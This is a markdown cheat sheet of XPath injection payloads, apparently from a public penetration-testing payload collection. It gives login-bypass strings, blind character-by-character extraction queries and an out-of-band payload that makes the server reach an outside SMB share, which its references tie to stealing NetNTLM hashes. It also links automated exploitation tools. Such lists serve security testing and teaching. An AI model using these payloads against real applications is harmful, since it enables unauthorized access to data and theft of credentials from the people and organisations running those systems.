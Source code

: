 # XPATH injection

> XPath Injection is an attack technique used to exploit applications that construct XPath (XML Path Language) queries from user-supplied input to query or navigate XML documents.

## Summary

* [Exploitation](#exploitation)
* [Blind exploitation](#blind-exploitation)
* [Out Of Band Exploitation](#out-of-band-exploitation)
* [Tools](#tools)
* [References](#references)

## Exploitation

Similar to SQL : `"string(//user[name/text()='" +vuln_var1+ "' and password/text()=’" +vuln_var1+ "']/account/text())"`

```sql
' or '1'='1
' or ''='
x' or 1=1 or 'x'='y
/
//
//*
*/*
@*
count(/child::node())
x' or name()='username' or 'x'='y
' and count(/*)=1 and '1'='1
' and count(/@*)=1 and '1'='1
' and count(/comment())=1 and '1'='1
search=')] | //user/*[contains(*,'
search=Har') and contains(../password,'c
search=Har') and starts-with(../password,'c
```

## Blind Exploitation

1. Size of a string
    ```sql
    and string-length(account)=SIZE_INT
    ```
2. Extract a character
    ```sql
    substring(//user[userid=5]/username,2,1)=CHAR_HERE
    substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)
    ```

## Out Of Band Exploitation

```powershell
http://example.com/?title=Foundation&type=*&rent_days=* and doc('//10.10.10.10/SHARE')
```

## Tools

- [xcat](https://github.com/orf/xcat) - Automate XPath injection attacks to retrieve documents
- [xxxpwn](https://github.com/feakk/xxxpwn) - Advanced XPath Injection Tool 
- [xxxpwn_smart](https://github.com/aayla-secura/xxxpwn_smart) - A fork of xxxpwn using predictive text 
- [xpath-blind-explorer](https://github.com/micsoftvn/xpath-blind-explorer)
- [XmlChor](https://github.com/Harshal35/XMLCHOR) - Xpath injection exploitation tool

## References

* [OWASP XPATH Injection](https://www.owasp.org/index.php/Testing_for_XPath_Injection_(OTG-INPVAL-010))
* [Places of Interest in Stealing NetNTLM Hashes - Osanda Malith Jayathissa - March 24, 2017](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)
